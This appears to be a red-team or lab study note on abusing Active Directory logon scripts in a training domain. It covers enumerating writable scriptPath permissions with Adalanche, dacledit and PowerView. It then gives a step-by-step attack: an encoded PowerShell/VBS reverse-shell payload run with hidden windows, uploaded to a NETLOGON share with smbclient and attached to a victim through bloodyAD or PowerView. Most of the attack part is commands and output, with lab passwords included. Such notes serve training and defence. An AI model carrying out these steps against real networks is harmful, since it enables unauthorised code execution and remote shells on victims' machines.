


## What are?
Does what it says on the tin... Basically are scripts(Batch, Powershell, KIXtart etc) that are applied to Users during login.


## How it looks like?
You can see them applied either manually to a user in the AD.
Or more centrally managed via GPOs.



## How to enumerate?
There are tons of ways to archive same purpose, one is checking for the permission of writing the logon script over a example user object in [Adalanche: Active Directory ACL Visualizer and Explorer](https://github.com/lkarlslund/Adalanche).
```shell-session
//Collecting data
./adalanche collect activedirectory --domain 'inlanefreight.local' --server 10.129.229.224 --username 'Julio' --password 'SecurePassJul!08'

//Analyzing 
./adalanche analyze --datapath data/

//Set as base LDAP query
(objectClass=user)

//Click on you controlled user(attacker) and choose(What can this node pwn?)
this will show you all the ACL for this user.
```
You can do same directly from Kali.
```shell-session
python3 examples/dacledit.py -principal 'david' -target 'eric' -dc-ip 10.129.229.224 inlanefreight.local/'david':'SecurePassDav!d5'

Impacket v0.9.25.dev1+20230823.145202.4518279 - Copyright 2021 SecureAuth Corporation

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-3456308105-2521031762-2678499478-1108)
[*]   ACE[7] info                
[*]     ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]     ACE flags                 : None
[*]     Access mask               : ReadProperty, WriteProperty
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : Script-Path (bf9679a8-0de6-11d0-a285-00aa003049e2)
[*]     Trustee (SID)             : David (S-1-5-21-3456308105-2521031762-2678499478-1108)
```
Or in Windows with *PowerView.ps1*.
```powershell-session
Import-Module .\PowerView.ps1
$DavidSID = (Get-DomainUser -Identity david).objectSID
Get-DomainObjectAcl -Identity eric -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $DavidSID}

AceQualifier           : AccessAllowed
ObjectDN               : CN=eric,CN=Users,DC=inlanefreight,DC=local
ActiveDirectoryRights  : ReadProperty, WriteProperty
ObjectAceType          : Script-Path
ObjectSID              : S-1-5-21-3456308105-2521031762-2678499478-2104
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3456308105-2521031762-2678499478-2103
AccessMask             : 48
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit
InheritedObjectAceType : All
OpaqueLength           : 0
```


# Attack
## Linux Friendly
We need to identify a Samba share where our current user(attacker) have RW permission.
```shell-session
smbcacls //10.129.229.224/NETLOGON /EricsScripts -U David%'SecurePassDav!d5'

REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:INLANEFREIGHT\Domain Users
ACL:INLANEFREIGHT\david:ALLOWED/OI|CI/RWX
ACL:BUILTIN\Administrators:ALLOWED/I/FULL
ACL:CREATOR OWNER:ALLOWED/OI|CI|IO|I/FULL
ACL:NT AUTHORITY\Authenticated Users:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|IO|I/FULL
ACL:BUILTIN\Server Operators:ALLOWED/OI|CI|I/READ
```
Now we can create a malicious reverse shell payload(can be .bat, .ps1 or even .vbs).
```shell-session
//Via Powershell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADIAOQAuADIAMgA5AC4AOAA0ACIAOwAgACQATABQAE8AUgBUACAAPQAgADkAMAAwADEAOwAgACQAVABDAFAAQwBsAGkAZQBuAHQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJABMAEgATwBTAFQALAAgACQATABQAE8AUgBUACkAOwAgACQATg<SNIP>

//Via VisualBasic
CreateObject("Wscript.shell").Run "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADIAOQAuADIAMgA5AC4AOAA0ACIAOwAgACQATABQAE8AUgBUACAAPQAgADkAMAAwADIAOwAgACQAVABDAFAAQwBsAGkAZQBuAHQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJABMAEgATwBTAFQALAAgACQATABQAE8AUgBUACkAOwAgACQATgBlAHQAdwBvAHIAawBTAHQAcgBlAGEAbQAgAD0AIAAkAFQAQwBQAEMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAIAAkAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj<SNIP>"
```
Now we can upload the malicious script in the writable share found before(it is not important where the file is hosted, but only that is in the DC and the victim can reach the script, otherwise will fail).
```shell-session
smbclient //10.129.229.224/NETLOGON --directory EricsScripts -U David%'SecurePassDav!d5' -c "put logonScript.bat"
```
Setup a listener back to you machine.  Now we can use [bloodyAD]([CravateRouge/bloodyAD: BloodyAD is an Active Directory Privilege Escalation Framework (github.com)](https://github.com/CravateRouge/bloodyAD)) to set the path on the victim's logon script. (if it fails with absolute  paths try with relative ones as well **"EricsScript\logonScript.bat"**)
```shell-session
bloodyAD --host "10.129.229.224" -d "inlanefreight.local" -u "david" -p 'SecurePassDav!d5' set object eric scriptPath -v '\\inlanefreight.local\NETLOGON\EricsScripts\logonScript.bat'
```
We can check the change via this command.
```shell-session
bloodyAD --host "10.129.229.224" -d "inlanefreight.local" -u "david" -p 'SecurePassDav!d5' get object eric --attr scriptPath
```
If everything went smooth, you should get a kickback as soon as the victim logins in windows.

## Windows Friendly
Same can be archived relaying only on Windows, starting by finding a share were our user(attacker) have RW rights.
```powershell-session
icacls $env:LOGONSERVER\NETLOGON\EricsScripts

\\DC03\NETLOGON\EricsScripts INLANEFREIGHT\david:(OI)(CI)(RX,W)
                             NT AUTHORITY\Authenticated Users:(I)(RX)
                             NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(GR,GE)
                             BUILTIN\Server Operators:(I)(RX)
                             BUILTIN\Server Operators:(I)(OI)(CI)(IO)(GR,GE)
                             BUILTIN\Administrators:(I)(F)
                             BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                             NT AUTHORITY\SYSTEM:(I)(F)
                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                             CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```
Alternatively we can use [ScriptSentry.ps1]([techspence/ScriptSentry: ScriptSentry finds misconfigured and dangerous logon scripts. (github.com)](https://github.com/techspence/ScriptSentry)) to enumerate for dangerous permissions.
```powershell-session
PS C:\Tools> .\Invoke-ScriptSentry.ps1
UnsafeLogonScriptPermission \\inlanefreight.local\sysvol\inlanefreight.local\scripts\CCEDF2EBD2F1\DACEEFD3AFA1\32DCB1ACDBFE\12E1CD03F3E1\12E1CD03F3E1.bat INLANEFREIGHT\julio  Write, ReadAndExecute, Synchronize
UnsafeLogonScriptPermission \\inlanefreight.local\sysvol\inlanefreight.local\scripts\DEFB03023DDA\3D2FAA0A2110\logonScript.bat                            INLANEFREIGHT\daniel                Modify, Synchronize
UnsafeLogonScriptPermission \\inlanefreight.local\sysvol\inlanefreight.local\scripts\WaynesScripts\shelly.bat                                             INLANEFREIGHT\julio  Write, ReadAndExecute, Synchronize
UnsafeLogonScriptPermission \\inlanefreight.local\sysvol\inlanefreight.local\scripts\WaynesScripts\shelly.bat                                             INLANEFREIGHT\julio                         FullControl


########## Plaintext credentials ##########

Type        File                                                                     Credential
----        ----                                                                     ----------
Credentials \\inlanefreight.local\sysvol\inlanefreight.local\scripts\scriptShare.cmd net use h: \\DC03.inlanefreight.local\Shared\General /user:wayne Access2AllUsersSecure!
```
Upload the malicious script and setup a NC listener on you KALI machine.
Now we can write the path script via this one.
```powershell-session
Import-Module .\PowerView.ps1
Set-DomainObject eric -Set @{'scriptPath'='EricsScripts\logonScript.bat'}
```
We can check the result via.
```powershell-session
Get-DomainObject eric -Properties scriptPath

scriptpath
----------
EricsScripts\logonScript.bat
```
If everything went smoothly we should be able to get a kickback in our NC listener as soon as the victim logins in Windows.
